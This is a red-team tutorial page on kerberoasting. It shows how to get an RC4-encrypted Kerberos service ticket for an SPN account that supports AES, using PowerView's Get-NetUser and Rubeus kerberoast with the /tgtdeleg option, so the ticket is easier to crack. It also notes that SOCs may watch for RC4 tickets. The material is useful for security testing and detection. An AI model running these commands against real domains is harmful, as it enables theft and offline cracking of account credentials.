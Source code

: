 # Kerberoasting: Requesting RC4 Encrypted TGS when AES is Enabled

It is possible to kerberoast a user account with SPN even if the account supports Kerberos AES encryption by requesting an RC4 ecnrypted \(instead of AES\) TGS which easier to crack.

## Execution

First off, let's confirm we have at least one user with an SPN set:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
Get-NetUser -SPN sandy
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-37-30.png)

Since the user account does not support Kerberos AES ecnryption by default, when requesting a TGS ticket for kerberoasting with rubeus, we will get an RC4 encrypted ticket:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-39-53.png)

If the user is now set to support AES encryption:

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-40-51.png)

By default, returned tickets will be encrypted with the highest possible encryption algorithm, which is AES:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-58-37.png)

## Requesting RC4 Encrypted Ticket

As mentioned in the beginning, it's still possible to request an RC4 ecnrypted ticket \(if RC4 is not disabled in the environment, which does not seem to be common yet\):

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /tgtdeleg
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Even though AES encryption is supported by both parties, a TGS ticket encrypted with RC4 \(encryption type 0x17/23\) was returned. Note that SOCs may be monitoring for tickets encrypted with RC4:

![](../../.gitbook/assets/screenshot-from-2019-05-06-16-03-06.png)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/kerberoasting-revisited/" %}

